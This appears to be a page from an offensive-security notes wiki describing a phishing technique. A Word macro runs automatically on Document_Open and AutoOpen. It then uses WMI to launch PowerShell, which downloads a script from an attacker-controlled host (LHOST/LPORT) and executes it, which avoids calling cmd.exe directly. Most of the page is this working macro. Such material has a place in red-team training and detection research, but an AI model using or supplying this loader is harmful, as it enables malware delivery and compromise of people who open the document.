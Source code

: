 ## Invoking PowerShell with WMI in VBA

Phishing users and executing **Visual Basic for Applications (VBA)** inside of
Microsoft Office documents can sometimes block or alert on attempts to invoke
**cmd.exe** directly. Alternatively, we can use **Windows Management Interface
(WMI)** to invoke our PowerShell payloads after downloading them remotely. Below
is an example VBA payload to download our payload and execute it with WMI:

```vba
Sub MyMacro()
    Dim str As String
    strArg = "powershell (New-Object System.Net.WebClient).DownloadString('http://${LHOST}:${LPORT}/Payload.ps1') | Invoke-Expression"
    GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

## Related pages

- [[executing-win32-apis-in-powershell|Executing Win32 APIs in PowerShell]]
